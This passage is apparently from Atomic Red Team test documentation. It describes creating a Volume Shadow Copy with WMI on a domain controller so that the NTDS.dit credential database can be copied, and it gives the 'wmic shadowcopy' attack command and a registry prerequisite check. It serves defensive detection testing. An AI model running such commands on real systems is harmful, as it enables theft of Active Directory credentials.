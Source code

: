 

<br/>
<br/>

## Atomic Test #4 - Create Volume Shadow Copy with WMI
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

**Supported Platforms:** Windows


**auto_generated_guid:** 224f7de0-8f0a-4a94-b5d8-989b036c86da





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| drive_letter | Drive letter to source VSC (including colon and backslash) | String | C:&#92;|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic shadowcopy call create Volume=#{drive_letter}
```




#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```




<br/>
<br/>

## Atomic Test #5 - Create Volume Shadow Copy remotely with WMI
This test is intended to be run from a remote workstation with domain admin context.
The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.
